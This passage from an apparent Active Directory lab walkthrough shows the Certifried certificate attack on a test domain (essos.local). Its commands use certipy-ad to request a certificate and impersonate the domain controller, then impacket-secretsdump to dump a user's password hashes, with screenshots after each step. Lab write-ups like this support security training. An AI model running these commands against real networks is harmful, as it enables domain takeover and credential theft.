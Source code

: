 
- Request a certificate with the created computer on template Machine
```
certipy-ad req -u 'certifriedpc$'@essos.local -p 'certifriedpass' -target braavos.essos.local -ca ESSOS-CA -template Machine
```
![screenshot](pics/certifired_1.png)
- Authenticate with the certificate as meereen (the dc)
```
certipy-ad auth -pfx meereen.pfx -username 'meereen$' -domain essos.local -dc-ip 192.168.56.12
```
![screenshot](pics/certifired_2.png)


- Dump the ndts with the kerberos ticket we just get
```
export KRB5CCNAME=./meereen.ccache
impacket-secretsdump -k -no-pass -just-dc-user daenerys.targaryen ESSOS.LOCAL/'meereen$'@meereen.essos.local
```
![screenshot](pics/secretdump_certifired.png)

